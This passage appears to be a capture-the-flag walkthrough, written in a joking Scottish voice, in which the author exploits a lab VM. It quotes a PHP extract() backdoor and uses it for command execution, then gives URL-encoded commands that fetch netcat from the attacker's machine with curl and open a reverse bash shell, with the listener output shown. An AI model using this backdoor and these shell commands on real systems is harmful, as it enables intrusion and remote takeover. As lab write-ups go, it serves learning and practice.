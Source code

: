 ``` 

<!-- Third video gives triggers to the flicks phpinfo -->
By the way, it's only aboot 250 weeks ti Christmas!
<br></br>
```

In case ye forgot about Irn-Bru, here's a reminder:

> A.G. BARR p.l.c., commonly known as Barr's, is a Scottish soft drink manufacturer, based in 
> Cumbernauld, Scotland. It manufactures the popular Scottish drink, Irn-Bru

Back to the challenge...but it would be easier if Ah had some Irn-Bru! At this point, the only actionable hint Ah could understand was the one about phpinfo. There is no third video on the page, so Ah just tried navigating to http://192.168.145.131/flicks/phpinfo.php, which didn't work. Following on the hint about .pht extensions, Ah changed it to http://192.168.145.131/flicks/phpinfo.pht and got a blank page instead. 

After some Googling and drooling over Irn-Bru, Ah found a blog post about [PHP Backdoors: Hidden With Clever Use of Extract Function](https://blog.sucuri.net/2014/02/php-backdoors-hidden-with-clever-use-of-extract-function.html). It explains about a seemingly innocuous backdoor with the code:

``` 
@extract ($_REQUEST); 
@die ($ctime($atime));
```

> The extract() function imports variables into the local symbol table from an array.

> This function uses array keys as variable names and values as variable values. For each element it
> will create a variable in the current symbol table. 

The blog post is a very interesting read, and the applicable item is that the code is extracting content sent via GET/POST requests and creating variables that are then executed with the format <code>execute ctime with atime as argument</code>

Following the example, running http://192.168.145.131/flicks/phpinfo.pht?ctime=system&atime=whoami returns www-data, so we have achieved command execution! Time for an Irn-Bru break...

Doing very light enumeration, Ah found out that netcat is available on the target, so Ah fired up a listener and tried using netcat to serve a shell on my listener, but it didn't work. So Ah used Python's SimpleHTTPServer to transfer my netcat to the target system. Note that ye have to use URL encoding: <code>http://192.168.145.131/flicks/phpinfo.pht?ctime=system&atime=curl%20http%3A%2F%2F192.168.145.129%2Fnc%20--output%20nc</code>

The binary was downloaded to <code>/var/www/html/flicks</code>. Ah made it executable and ran it, but nothing happened. Next, Ah moved it to /tmp and ran it from there with <code>192.168.145.131/flicks/phpinfo.pht?ctime=system&atime=%2Ftmp%2Fnc%20192.168.145.129%208080%20-e%20%2Fbin%2Fbash</code> and it worked:

``` 
nc -vnlp 8080
listening on [any] 8080 ...
connect to [192.168.145.129] from (UNKNOWN) [192.168.145.131] 49172
whoami
www-data
``` 
